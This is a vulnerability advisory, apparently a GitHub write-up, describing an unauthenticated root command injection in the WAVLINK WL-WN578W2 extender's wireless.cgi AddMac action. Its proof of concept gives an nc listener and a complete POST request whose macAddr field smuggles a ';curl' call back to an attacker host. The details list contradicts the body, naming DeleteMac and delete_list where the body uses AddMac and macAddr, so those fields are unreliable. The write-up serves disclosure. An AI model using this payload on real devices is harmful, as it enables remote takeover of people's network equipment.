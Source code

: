 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (wireless.cgi AddMac)

PS:



1.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).

2.  **No authentication required**: No cookie or login credentials needed—vulnerability exploitable directly.

## Overview

An unauthenticated command injection vulnerability exists in the `AddMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `macAddr` parameter is unsanitized and directly concatenated into system commands. Attackers can send POST requests with `page=AddMac` and inject arbitrary commands via `macAddr`—no login required—to execute `root`-level operations.



![Vulnerability Flow: Unauthenticated Injection](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/wireless.cgi` (POST method, no login required)

*   **Trigger Condition**: Request parameter `page=DeleteMac`

*   **Vulnerable Parameter**: `delete_list`

*   **Vulnerability Type**: Unauthenticated Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute commands

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **No Effective Auth Check**: The `ftext` function’s authentication logic (via `sub_404DBC()`) is ineffective, allowing unauthenticated requests to proceed.

2.  **Action Routing**: When `page=AddMac` is parsed, the `sub_4030F8` function is called to process the request.

3.  **Unsanitized Injection**: `macAddr` is extracted and directly concatenated into the command `addmac %s` via `sprintf`, with no filtering of separators (e.g., `;`). This allows unauthenticated attackers to inject arbitrary commands.



![Vulnerability Code Snippet](./imgs/2.png)



![Vulnerability Code Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` via `macAddr`

No login or cookie needed.

#### 1. Start Netcat Listener

On attacker machine (IP: 192.168.10.154):



```
nc -lvnp 1234
```



#### 2. Send Unauthenticated POST Request



```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: wifi.wavlink.com
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

page=AddMac&addMac=&addName=&macAddr=;curl http://192.168.10.154:1234
```

#### 3. Verify Execution

Netcat receives request from device, confirming command injection success:
![Netcat Listener](./imgs/4.png)

